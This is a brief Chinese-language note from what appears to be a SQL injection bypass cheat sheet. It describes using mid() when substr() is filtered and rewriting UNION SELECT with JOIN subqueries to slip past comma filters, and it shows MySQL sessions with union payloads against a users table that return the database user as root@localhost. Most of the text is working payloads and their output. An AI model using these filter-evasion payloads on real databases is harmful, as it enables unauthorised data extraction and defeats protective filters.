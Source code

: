 # mid字符串截取★ 

这个 mid函数跟 substr 函数功能相同，如果 substr 函数被拦截或者过滤，可以使用这个函数代替

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675824489678-b843cf22-a00d-4da9-ab92-a4a2ce7dbde0.png)

# 使用join绕过 

使用 join 连接两个表

union select 1,2 等价于 union select * from (select 1)a join (select 2)b

```sql
mysql> select * from users where id=-1 union select * from (select 1)a join (select 2)b join (select 3)c;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=-1 union select * from (select 1)a join (select user())b join (select 3)c;
+----+----------------+----------+
| id | username       | password |
+----+----------------+----------+
|  1 | root@localhost | 3        |
+----+----------------+----------+
1 row in set (0.00 sec)
```
